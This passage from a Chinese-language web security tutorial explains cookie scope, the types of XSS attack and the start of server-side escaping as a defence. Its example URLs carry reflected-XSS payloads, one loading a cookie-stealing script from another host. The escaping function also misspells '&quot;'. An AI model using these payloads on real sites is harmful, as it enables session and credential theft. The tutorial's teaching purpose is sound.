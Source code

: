 也有，不过跟 AJAX 的同源策略稍微有些不同：

- 当请求 [qq.com](https://link.zhihu.com/?target=http%3A//qq.com/) 下的资源时，浏览器会默认带上 [qq.com](https://link.zhihu.com/?target=http%3A//qq.com/) 对应的 Cookie，不会带上[baidu.com](https://link.zhihu.com/?target=http%3A//baidu.com/) 对应的 Cookie
- 当请求 [v.qq.com](https://link.zhihu.com/?target=http%3A//v.qq.com/) 下的资源时，浏览器不仅会带上 [v.qq.com](https://link.zhihu.com/?target=http%3A//v.qq.com/) 的 Cookie，还会带上 [qq.com](https://link.zhihu.com/?target=http%3A//qq.com/) 的 Cookie

## XSS 攻击

XSS 全称是 Cross Site Scripting，为了与“CSS”区分开来，故简称 XSS，翻译过来就是“跨站脚本”。XSS 攻击是指黑客往 HTML 文件中或者 DOM 中注入恶意脚本，从而在用户浏览页面时利用注入的恶意脚本对用户实施攻击的一种手段。
如果页面被注入了恶意 JavaScript 脚本，恶意脚本都能做哪些事情。

- **可以窃取 Cookie 信息**。恶意 JavaScript 可以通过“document.cookie”获取 Cookie 信息，然后通过 XMLHttpRequest 或者 Fetch 加上 CORS 功能将数据发送给恶意服务器；恶意服务器拿到用户的 Cookie 信息之后，就可以在其他电脑上模拟用户的登录，然后进行转账等操作。
- **可以监听用户行为**。恶意 JavaScript 可以使用“addEventListener”接口来监听键盘事件，比如可以获取用户输入的信用卡等信息，将其发送到恶意服务器。黑客掌握了这些信息之后，又可以做很多违法的事情。
- 可以通过修改 DOM 伪造假的登录窗口，用来**欺骗用户输入用户名和密码等信息**。
- 还可以在页面内**生成浮窗广告**，这些广告会严重地影响用户体验。

### 恶意脚本是怎么注入的

#### **存储型 XSS 攻击**

黑客利用站点漏洞将一段恶意 JavaScript 代码提交到网站的数据库中；

#### **反射型 XSS 攻击**

在一个反射型 XSS 攻击过程中，恶意 JavaScript 脚本属于用户发送给网站请求中的一部分，随后网站又把恶意 JavaScript 脚本返回给用户

```JavaScript
// 普通
http://localhost:3000/?from=china
// alert尝试
http://localhost:3000/?from=<script>alert(3)</script>
// 获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"> </script>
// 短域名伪造 https://dwz.cn/
```

#### **基于 DOM 的 XSS 攻击**

具体来讲，黑客通过各种手段将恶意脚本注入用户的页面中，比如通过网络劫持在页面传输过程中修改 HTML 页面的内容，这种劫持类型很多，有通过 WiFi 路由器劫持的，有通过本地恶意软件来劫持的，它们的共同点是在 Web 资源传输过程或者在用户使用页面的过程中修改 Web 页面的数据。

### 如何阻止 XSS 攻击

1. **服务器对输入脚本进行过滤或转码**

   - 黑名单

   ```JavaScript
   function escape(str) {
     str = str.replace(/&/g, "&amp;");
     str = str.replace(/</g, "&lt;");
     str = str.replace(/>/g, "&gt;");
     str = str.replace(/"/g, "&quto;");
     str = str.replace(/'/g, "&#39;");
     str = str.replace(/`/g, "&#96;");
     str = str.replace(/\//g, "&#x2F;");
     return str;
   }
   ```
